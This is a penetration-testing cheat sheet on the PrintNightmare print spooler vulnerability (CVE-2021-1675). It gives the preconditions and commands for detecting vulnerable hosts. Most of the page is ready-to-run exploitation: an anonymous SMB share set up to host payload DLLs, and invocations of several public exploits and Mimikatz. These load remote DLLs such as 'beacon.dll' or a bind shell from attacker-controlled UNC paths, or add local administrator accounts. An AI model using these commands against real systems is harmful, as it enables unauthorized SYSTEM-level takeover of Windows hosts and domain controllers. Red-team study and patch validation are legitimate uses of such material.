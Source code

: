 # PrintNightmare

[<mark style="color:green;">**CVE-2021-1675**</mark>](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) <mark style="color:green;">**is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."**</mark>

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept (PoC) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk.&#x20;

**An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system.** This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## <mark style="color:red;">Requirements</mark>

* <mark style="color:green;">**Spooler Service**</mark> <mark style="color:green;"></mark><mark style="color:green;">enabled (Mandatory)</mark>
* <mark style="color:green;">Server with patches < June 21</mark>
* <mark style="color:green;">DC with</mark> <mark style="color:green;"></mark><mark style="color:green;">`Pre Windows 2000 Compatibility`</mark> <mark style="color:green;"></mark><mark style="color:green;">group</mark>
* <mark style="color:green;">Server with registry key</mark> <mark style="color:green;"></mark><mark style="color:green;">`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall`</mark> <mark style="color:green;"></mark><mark style="color:green;">= (DWORD) 1</mark>
* <mark style="color:green;">Server with registry key</mark> <mark style="color:green;"></mark><mark style="color:green;">`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA`</mark> <mark style="color:green;"></mark><mark style="color:green;">= (DWORD) 0</mark>

## <mark style="color:red;">Target Detection</mark>

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```python
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## <mark style="color:red;">Tools</mark>

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## <mark style="color:red;">Exploitation</mark>

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```python
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```shell
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### <mark style="color:orange;">SMB configuration</mark>

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```tsconfig
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### <mark style="color:green;">From windows it's also possible</mark>

```powershell
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```python
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### <mark style="color:orange;">other methods</mark>

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```python
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

```python
## LPE only (PS1 + DLL)
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```python
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```python
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```
